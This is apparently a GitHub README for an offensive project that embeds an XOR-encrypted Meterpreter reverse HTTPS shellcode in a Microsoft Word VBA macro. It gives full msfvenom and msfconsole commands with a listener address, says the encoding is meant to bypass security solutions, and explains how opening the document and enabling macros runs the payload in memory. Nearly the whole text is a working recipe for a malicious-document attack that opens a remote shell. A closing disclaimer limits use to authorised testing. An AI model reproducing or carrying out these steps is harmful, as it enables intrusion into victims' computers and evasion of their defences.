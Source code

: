 # VBA Payload Encryption and Execution

## Overview
This project demonstrates how to encrypt a shellcode (revshell) payload for execution within a Microsoft Word VBA macro. The encryption process enhances evasion techniques to bypass security solutions by encoding the payload before execution.

## Steps
### 1. Generate the Shellcode
Use `msfvenom` to generate a reverse HTTPS payload in C# format:
```sh
msfvenom -p windows/x64/meterpreter/reverse_https SessionExpirationTimeout=0 SessionCommunicationTimeout=0 LHOST=192.168.1.142 LPORT=443 EXITFUNC=thread -f csharp
```

### 2. Encrypt the Payload
Use the provided C# encryption script (`XOR_encoder`) to XOR the shellcode with a static key (`0xFA`).

### 3. Embed the Encrypted Payload in VBA Macro
- Open Microsoft Word and access the VBA Editor (`ALT + F11`)
- Insert a new module and paste the `VBA_Macro_Shellcode_Execution` file content

### 4. Setup Metasploit Listener
Start Metasploit and configure the multi-handler:
```sh
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.1.142; set LPORT 443; set SessionExpirationTimeout 0; set SessionCommunicationTimeout 0; exploit"
```

### 5. Execute the VBA Macro
- Open the Word document containing the macro
- Enable macros when prompted
- The encrypted payload is decoded and executed in memory

### 6. Compatibility Note
If Microsoft Word is running in 32-bit, the payload and handler must be adjusted for x86 compatibility by replacing windows/x64/meterpreter/reverse_https with windows/meterpreter/reverse_https in both the shellcode generation with msfvenom and the listener configuration in Metasploit.

## Disclaimer
This project is intended for educational and authorized penetration testing purposes only. Unauthorized use is strictly prohibited.

